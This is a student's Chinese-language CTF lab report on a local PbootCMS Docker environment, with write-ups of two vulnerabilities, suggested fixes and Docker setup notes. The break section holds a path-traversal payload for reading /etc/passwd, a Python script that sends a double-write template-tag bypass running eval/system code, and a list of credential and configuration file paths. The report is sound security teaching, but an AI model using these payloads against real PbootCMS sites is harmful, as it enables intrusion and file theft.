





# 苏意淇-个人报告

## 一、实验环境

### 基础环境

本次实验开发环境和实际项目运行环境以及脚本运行环境，均基于如下基础环境

- Engine/20.10.13
- Compose/1.29.2
- Credential Helper/0.6.4
- Snyk/1.827.0

其中项目实际运行环境如下

- Apache/2.4.29 (Ubuntu)
- PHP/7.2.11
- Mysql/5.7.24

- Windows 11/22621.232

  - [docker desktop/v4.10.1](https://www.docker.com/products/docker-desktop/)
- VirtualBox/6.1.36
- Kali/2021.2
  - Docker/20.10.14+dfsg1

脚本运行环境如下

- python/3.88
- Vscode/1.69.2

### 环境搭建

#### 使用 Apt 安装 Visual Studio Code

```sh
#apt命令更新软件包索引并安装依赖的软件 
sudo apt update

#使用wget下载Microsoft GPG密钥。
sudo apt install software-properties-common apt-transport-https wget

#使用wget命令导入Microsoft GPG密钥
wget -q https://packages.microsoft.com/keys/microsoft.asc -O- | sudo apt-key add -

#使用add-apt-repository命令启用Visual Studio code存储库
sudo add-apt-repository "deb [arch=amd64] https://packages.microsoft.com/repos/vscode stable main"

#安装vscode
sudo apt install code
```

完成上述命令行安装后单击 Kali 应用程序图标搜索即可

### 快速上手体验

```sh
#搭建配置环境
docker-compose build
#后台启动应用程序
docker-compose up -d
```

本样例工程通过  `docker-compose.yml` 文件部署后，打开浏览器访问:  [127.0.0.1](127.0.0.1)  即可快速体验系统所有功能。

## 二、BreakIt

### 漏洞1——任意文件包含 break

1. 由于是文件包含漏洞，简单思路为可以通过目录遍历来找到 flag 文件。

2. 上网搜索资料的时候找到 Pboot 过往版本源码，漏洞发生在 PbootCMS 内核的模板解析函数中，位于   `core\view\View.php` 文件的 `view` 类中

   ```php
      // 解析模板文件
       public function parser($file)
       {
           // 设置主题
           $theme = isset($this->vars['theme']) ? $this->vars['theme'] : 'default';
           
           $theme = preg_replace('/\.\.(\/|\\\)/', '', $theme); // 过滤掉相对路径
           $file = preg_replace('/\.\.(\/|\\\)/', '', $file); // 过滤掉相对路径
           
           if (strpos($file, '/') === 0) { // 绝对路径模板
               $tpl_file = ROOT_PATH . $file;
           } elseif (! ! $pos = strpos($file, '@')) { // 跨模块调用
               $path = APP_PATH . '/' . substr($file, 0, $pos) . '/view/' . $theme;
               define('APP_THEME_DIR', str_replace(DOC_PATH, '', $path));
               if (! is_dir($path)) { // 检查主题是否存在
                   error('模板主题目录不存在！主题路径：' . $path);
               } else {
                   $this->tplPath = $path;
               }
               $tpl_file = $path . '/' . substr($file, $pos + 1);
           } else {
               // 定义当前应用主题目录
               define('APP_THEME_DIR', str_replace(DOC_PATH, '', APP_VIEW_PATH) . '/' . $theme);
               if (! is_dir($this->tplPath .= '/' . $theme)) { // 检查主题是否存在
                   error('模板主题目录不存在！主题路径：' . APP_THEME_DIR);
               }
               $tpl_file = $this->tplPath . '/' . $file; // 模板文件
           }
           $note = Config::get('tpl_html_dir') ? '<br>同时检测到您系统中启用了模板子目录' . Config::get('tpl_html_dir') . '，请核对是否是此原因导致！' : '';
           file_exists($tpl_file) ?: error('模板文件' . APP_THEME_DIR . '/' . $file . '不存在！' . $note);
           $tpl_c_file = $this->tplcPath . '/' . md5($tpl_file) . '.php'; // 编译文件
                                                                          
           // 当编译文件不存在，或者模板文件修改过，则重新生成编译文件
           if (! file_exists($tpl_c_file) || filemtime($tpl_c_file) < filemtime($tpl_file) || ! Config::get('tpl_parser_cache')) {
               $content = Parser::compile($this->tplPath, $tpl_file); // 解析模板
               file_put_contents($tpl_c_file, $content) ?: error('编译文件' . $tpl_c_file . '生成出错！请检查目录是否有可写权限！'); // 写入编译文件
               $compile = true;
           }
           
           ob_start(); // 开启缓冲区,引入编译文件
           $rs = include $tpl_c_file;
           if (! isset($compile)) {
               foreach ($rs as $value) { // 检查包含文件是否更新,其中一个包含文件不存在或修改则重新解析模板
                   if (! file_exists($value) || filemtime($tpl_c_file) < filemtime($value) || ! Config::get('tpl_parser_cache')) {
                       $content = Parser::compile($this->tplPath, $tpl_file); // 解析模板
                       file_put_contents($tpl_c_file, $content) ?: error('编译文件' . $tpl_c_file . '生成出错！请检查目录是否有可写权限！'); // 写入编译文件
                       ob_clean();
                       include $tpl_c_file;
                       break;
                   }
               }
           }
           $content = ob_get_contents();
           ob_end_clean();
           return $content;
       }
   
   ```

3. 漏洞在于类中的 `parser` 函数的第92和93行传入路径做的过滤并不严格，仅仅进行替换为空的操作。对于根目录进行寻找时，绕过姿势可以为进行双写 `./` 的操作进行绕过，比如  `..././`  替换后就变成了 `./`
   

4. 接着再往下面看118行到126行

   

   如果编译文件不存在，程序会执行包含 `$tpl_file` 的操作,然后通过 `file_put_content` 写入缓存文件，然
   后进行包含。则整个漏洞过程的触发需要找到能够造成调用 `parser` 参数可控的方法

5. 全局搜索  `parser`，在前台控制器 `SearchController` 中的 index 方法找到符合要求的代码，如下：

   

   - 由于正则匹配不严谨，导致可以读取任意文件。通过对 `search` 搜索页面传入特定的 `&searchtpl` 变量值，读取 flag 文件。

   - 构造如下 poc，尝试读取 Linux 系统中的 `etc/passwd` 文件。因为在 Linux 系统中， `/etc/passwd` 文件存放着用户信息，文件权限是 `-rw-r--r--` ，我们对它是具有可读权限的。

   ```html
   ?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd
   
   #或者
   /search
   POST=>searchtpl=....//....//....//....//....//....//....//....//etc/passwd
   ```

   一番尝试后找到根目录位于的地址

   进一步找到 flag

   - 主要难点还是在于若没有分析源码的过程，难以猜测出可利用的 post 参数

### 漏洞2——前台RCE break

**破解思路**：由于漏洞在留言板处，同时是前台RCE的题目，根据题目线索：  `pbootpbootpboot:if:if:if` ，推测存在针对 `pboot:if` 的代码绕过。于是可以在留言板内容处进行一句话木马注入，三次重复说明存在两次双写绕过。

1. 在留言处测试以下  poc `{pbootpbootpboot:if:if:if(TRUE)}test{/pbootpbootpboot:if:if:if}`

   - 在两个 `pboot:if` 标签被过滤之后，系统执行 `{pboot:if(TRUE)}test{/pboot:if}` ，输出条件为 `true` ， `test` 作为文本被输出到留言板中
   - 参考 [PbootCMS 开发手册](https://www.pbootcms.com/docs/235.html) 使用 `pboot:if` 标签，其为根据条件输出不同内容。

2. 尝试构造 poc `{pbootpbootpboot:if:if:if(system(whoami))}test{/pbootpbootpboot:if:if:if}`

   执行失败

3. 研究资料发现：除了 if 标签过滤以外， `payload` 还被进行一层安全校验：提取出 `pboot:if` 标签条件判断的括号中左括号前的字符串，判断字符串是不是函数或者字符串内容是不是 `eval` ，若上述都不满足，再判断字符串不在白名单中，若在白名单中才可执行。

   - `eval`  把字符串作为 PHP 代码执行

4. 由于 PHP 项目中通常会有移除控制字符的函数。在构造 `payload` 过程中将函数名和括号间插入控制字符进行绕过。使用 `chr()` 拼接字符串，其作用是从指定的 `ASCII` 码返回字符串，从而进行拼接绕过。

   ```sh
   #system("cat flag.php")对应的ascii码
   \u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0070\u0068\u0070\u0022\u0029
   ```

5. 编写拿 flag 的代码：这里经过多次试验，猜测出隐藏flag的文件为 `flag.php`

   函数 `post` 发送 `payload`

   ```php
   def myPost(url):
       headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
       post = {
           'contacts': 'stephanieSuu',
           'mobile': '123456',
           'content': '{ppbopboot:ifot:ifboot:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}我今天吃饭了{/pbpbopboot:ifot:ifoot:if} '
           
           #执行system("cat flag.php")一句话木马
       }
       response = requests.post(url, data=post,headers= headers)
       if response.status_code == 200:
           print("Exp successed")
           return True
       else:
           print("Exp failed, response code=" + str(response.status_code))
           return False
   ```

   前台留言板并未显示任何内容，猜测后台留言已经新增成功，去前台留言板获取新增的留言，又因为留言内容执行的是 `system("cat flag.php");` 所以应该可以拿到 `flag`

   ```python
   def catchFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flag = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flag)>=0):
           #多次插入exp会造成获取到多个flag，取一个即可
           print(flag[0])
       else:
           print("can not catch the Flag")
       
   ```

   主函数

   ```python
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if myPost(url):
           catchFlag()
   ```

   成功拿到 `flag{flaggg}`

### 技术总结

1. **文件包含漏洞**

   > **漏洞描述**
   >
   > 在通过PHP的 `incluede` 、 `require` 等函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，导致意外的文件泄露甚至恶意的代码注入，主要包括本地文件包含和远程文件包含两种形式。

   根据源码复盘时发现：其修复可以将`core\view\View.php`第92和93行不严谨的`preg_repalce`函数改成成递归替换函数，防止双写绕过找到根目录。

   同时在 `apps\home\controller\SearchController.php`方法的29行中修改正则匹配表达式`/^[\w\-\.\/]+$/` 为 `/^[\w\+\.html+$/`将 `$searchtpl` 强制为 html 后缀，无法读取任意文件。

   - 攻击防范：
     1. 检查服务器配置文件：php.ini配置文件中 `allow_url_foprn` 、 `allow_url_include` 两个选项。其中 `allow_url_fopen` 默认是开启的， `allow_url_include` 默认是关闭的，若开启`allow_url_include`，我们就可以使用伪协议读取我们的敏感信息和其它操作，因此需确保其关闭。虽然开启`allow_url_fopen`也可以读取我们的文件，但是我们可以通过过滤一些字符或者限制用户的输入从而达到攻击不能读取我们信息的操作
     2. 过滤特殊符号：过滤或转义文件包含时可能用到的几个固定敏感字符`\，//，input，output，filte` “`../`”、“`..\`”、“`%00`”，“`..`”，“`./`”，“`#`”等跳转目录或字符终止符、截断字符的输入。过滤要全面，多次递归过滤和正则匹配强制指定文件类型以确保攻击者无法攻击漏洞。
     3. 指定包含的文件，设置白名单：在包含文件时提前添加一条规则，使得只能包含指定的文件，若包含了非指定的文件，程序就会报错退出。
     4. 设置文件目录：php 的配置文件中的 `open_basedir` 选项可以设置用户需要执行的文件目录。设置文件目录后，执行脚本只会在该目录中搜索文件，可以将需要包含的文件放到这个目录，从而也避免了敏感文件的泄露。

   - PHP 中文件包含函数有以下四种：

     由于文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

     > require()
     >
     > require_once()
     >
     > include()
     >
     > include_once()

   - `include` 和 `require`区别主要是：

     - `include` 在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
     - `require` 函数出现错误的时候，会直接报错并退出程序的执行。

     `include_once()` 和 `require_once()` 的主要区别

     - 与前两个的不同之处在于这两个函数**只包含一次**，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

   - **常见的敏感信息路径：**

     Windows 系统

     > c:\boot.ini // 查看系统版本
     >
     > c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
     >
     > c:\windows\repair\sam // 存储Windows系统初次安装的密码
     >
     > c:\ProgramFiles\mysql\my.ini // MySQL配置
     >
     > c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
     >
     > c:\windows\php.ini // php 配置信息

     Linux/Unix系统

     > /etc/passwd // 账户信息
     >
     > /etc/shadow // 账户密码文件
     >
     > /usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
     >
     > /usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
     >
     > /usr/local/app/php5/lib/php.ini // PHP相关配置
     >
     > /etc/httpd/conf/httpd.conf // Apache配置文件
     >
     > /etc/my.conf // mysql 配置文件

2. 前台RCE漏洞

   > **漏洞描述**：远程命令/代码执行漏洞，简称 RCE 漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。 RCE 分为远程命令执行 ping 和远程代码执行 eval。
   >
   > **漏洞产生的根本原因**
   >
   > 服务器没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。
   >
   > **如何挖掘？**
   >
   > 1. 黑盒测试：网站中有特殊功能，比如Ping、数据库备份等等。
   >
   > 2. 白盒测试：查看命令执行函数是否做过滤。命令执行函数如下：
   >    1. PHP 代码执行函数：eval()、assert()、preg_replace()、create_function()、array_map()、call_user_func()、call_user_func_array()、array_filter()、uasort()
   >    2. PHP 命令执行函数：system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()

   - 使用替换 `preg_replace` 函数对留言提交内容进行 `pboot:if` 字符串替换，针对上述情况来说可以通过多次双写绕过处理，因此建议尽量避免单一次数的替换使用，而是结合使用递归替换、正则匹配、白名单(指定可用的函数)等手段防止双写绕过。根本防范手段还是要对用户接口输入的内容进行严格的判断。

## 三、Docker环境打包

> Compose 使用的三个步骤：
>
> - 使用 Dockerfile 定义应用程序的环境。
> - 使用 docker-compose.yml 定义构成应用程序的服务，这样它们可以在隔离环境中一起运行。
> - 执行 docker-compose up 命令来启动并运行整个应用程序。
>

### 使用 Dockerfile 定制镜像

> 为了简化环境配置，将每一层修改、安装、构建、操作的命令都写入 Dockerfile 脚本，使用该脚本来定制镜像。

#### 编写Dockerfile

项目基础镜像基于 `s1riu5/lamp:7.2` 所有后续环境均基于该环境。

1. 在该镜像的基础上利用 `COPY schema.sql /docker-entrypoint-initdb.d/`  将数据库文件导入数据库。

2. 将整个项目源码拷贝进该基础环境的网站目录  `COPY src/ /var/www/html`

3. 生成 flag 并写入根目录 flag 文件 `RUN echo "flag{fffllllaaggggg}" > /flag` ——为漏洞一添加

4. 给网站根目录文件赋予相应权限。并删除原环境的网站根目录中的 `index.html` 文件

   - 同时由于 Dockerfile 中每一个指令都会建立一层新的镜像，这里为了防止镜像膨胀，使用 `&&` 简化命令

   ```dockerfile
   RUN chmod -R 777 /var/www/html \
       && rm -rf /var/www/html/index.html 
   ```

```dockerfile

#指定基础镜像
FROM s1riu5/lamp:7.2

#复制本机项目数据库文件和源码文件到镜像的工作目录
COPY schema.sql /docker-entrypoint-initdb.d/
COPY src/ /var/www/html

#添加flag文件到镜像目录
RUN echo "flag{fffllllaaggggg}" > /flag

#授权并删除冗余文件 
RUN chmod -R 777 /var/www/html \
    && rm -rf /var/www/html/index.html 
```

#### 测试 Dockerfile

在 `Dockerfile` 文件的存放目录下，执行构建动作。

- `awdbeak:v1` （镜像名称:镜像标签）
- `.` 指定上下文的目录，即指定构建镜像上下文的路径，`docker build` 命令得知这个路径后，会将路径下的所有内容打包，然后上传给 Docker 引擎，再由引擎展开这个上下文包从而获得构建镜像所需的一切文件。

```sh
#通过Dockerfile构建镜像
docker build -t awdbreak:v1 .

#查看当前镜像
docker images
```

镜像构建成功


### Docker Compose 的构建

> 使用 docker-compose.yml 定义构成应用程序的服务。确保它们可以在隔离环境中一起运行。

Windows 的 Docker 桌面版已经包括 Compose 和其他 Docker 应用程序，因此无需单独安装 Compose。若使用 Linux，apt 安装即可`apt-get install  docker-compose`

```yaml
#Docker-Compos置
version: '3'         #标记版本号
services:            #依赖的服务
  pbtcms-awd:        #依赖的服务1
    build: ./php-fpm #服务1基础镜像的Dockerfile的相对路径
    restart: always  # 确保Docker重启后，该服务可以自启动
    ports:           # 标记服务启动端口的映射关系
        - 80:80
```

- 该 Compose 文件定义了一个服务 **pbtcms-awd**
  - pbtcms-awd 服务指定使用从 `./php-fpm/Dockerfile` 文件构建的镜像。
  - 确保容器总是**重新启动**
  - 将容器和主机绑定到暴露的端口 **80**。服务使用 Flask Web 服务器的默认端口 **80** 。

```shell
#在测试目录中启动应用程序
docker-compose up
```


- 测试成功，访问 [127.0.0.1](127.0.0.1) 使用当前镜像系统功能

  

## 四、问题与解决方法

1. docker桌面版启动持续 `docker desktop starting`，无法顺利使用

   解决方法：

   1. 确保已下载安装 wsl 更新包 `wsl_update_x64.msi`

      ```shell
      #设置wsl默认版本
         wsl --set-default-version 2
      ```

      

   2. 由于 `windows11` 没有自带 `hyper-v` 服务，需手动安装 `hyper-v`

      复制以下命令到记事本中并保存为 `.bat` 文件，以管理员权限运行

      ```shell

      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-ClientEdition-WOW64-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-WOW64-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-WOW64-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Offline-Common-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.4.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Offline-Core-Group-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Online-Services-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Package-base-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-Package
      Microsoft-Hyper-V-Package-base-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum

      ```

   3. 在 `启用或关闭windows功能` 控制面板中开启**所有** `Hyper-V` 服务

   4. 以**管理员身份**执行以下命令后重启电脑， docker 可以正常运行了。

      ```sh
      # 执行下面命令启动wsl
      dism.exe /online /enable-feature /featurename:Microsoft-Windows-Subsystem-Linux /all /norestart
      
      #启动虚拟机给功能
      dism.exe /online /enable-feature /featurename:VirtualMachinePlatform /all /norestart
      
      
      dism.exe /online /enable-feature /featurename:Microsoft-Windows-Subsystem-Linux /all /norestart
      
      #将WSL2设置为默认版本
      wsl --set-default-version 2
      ```

2. docker桌面版闪退

   在第一次解决 docker 桌面版安装好无法正常使用的问题之后，隔几天又出现了闪退问题。持续 `docker desktop stopping`

   同时重装 `docker desktop` 和 `wsl` 无效

   

   解决：在官网提示下，使用 Docker desktop 的自诊断工具，它位于 `C:\Program Files\Docker\Docker\resources`

   ```Sh
   #进入指定目录
   com.docker.diagnose.exe check
   ```

   ```checkCmd
   time="2022-07-22T17:34:07+08:00" level=info msg="unable to query WSL distros: exit status 0xffffffff"
   [2022-07-22T09:34:07.562232800Z][com.docker.diagnose.exe][I] set path configuration to OnHost
   Starting diagnostics
   
   [PASS] DD0027: is there available disk space on the host?
   [SKIP] DD0028: is there available VM disk space?
   [FAIL] DD0031: does the Docker API work? ed"http://%2F%2F.%2Fpipe%2Fdocker_engine_linux/v1.24/containers/json?limit=0": open //./pipe/docker_engine_linux: The system cannot find the file specified.
   [FAIL] DD0004: is the Docker engine running? Get "http://ipc/docker": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:07.577249900Z][com.docker.diagnose.exe][I] ipc.NewClient: e77f921d-com.docker.diagnose -> \\.\pipe\dockerLifecycleServer VMDockerdAPI
   [linuxkit/pkg/desktop-host-tools/pkg/client.NewClientForPath(...)
   [       linuxkit/pkg/desktop-host-tools/pkg/client/client.go:59
   [linuxkit/pkg/desktop-host-tools/pkg/client.NewClient({0x93692a, 0x13})
   [       linuxkit/pkg/desktop-host-tools/pkg/client/client.go:53 +0x99
   [common/pkg/diagkit/gather/diagnose.isDockerEngineRunning()
